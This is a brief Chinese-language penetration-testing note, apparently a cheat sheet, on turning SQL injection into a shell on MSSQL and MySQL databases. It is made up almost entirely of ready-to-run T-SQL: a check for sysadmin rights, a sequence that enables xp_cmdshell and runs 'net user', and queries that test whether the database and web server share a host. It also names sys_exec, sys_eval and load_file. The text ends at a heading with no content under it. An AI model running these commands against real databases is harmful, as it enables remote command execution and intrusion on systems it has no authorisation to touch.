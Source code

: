 



~~~c#
// 判断是不是dba权限
select is_srvrolemember('sysadmin')

//命令执行
execute ('sp_configure "show advanced options",1');
execute ('reconfigure');
execute ('sp_configure "xp_cmdshell", 1');
execute ('reconfigure');
execute ('sp_configure');
execute ('xp_cmdshell "net user"'); 
// 判断是不是站库分离
select host_name(); //主机名
select @@servername; //服务器名
~~~





#### SQL注入拿shell

通过SQL注入拿shell一般就是两种方式：

~~~
select host_name();//主机名
select @@servername;//服务器名
//如果相同则代表数据库和web在同一台机器上面
~~~



###### 1.利用命令执行函数

~~~http
mysql：sys_exec，sys_eval		也是在利用mysql提权时利用到的函数
mssql：xp_cmdshell(利用sp_oacreate函数开启)

execute ('sp_configure "show advanced options",1');
execute ('reconfigure');
execute ('sp_configure "xp_cmdshell", 1');
execute ('reconfigure');
execute ('sp_configure');
execute ('xp_cmdshell "net user"'); 

~~~

[![pSL17b4.png](https://s1.ax1x.com/2023/02/18/pSL17b4.png)](https://imgse.com/i/pSL17b4)









###### 其他：load_file读文件
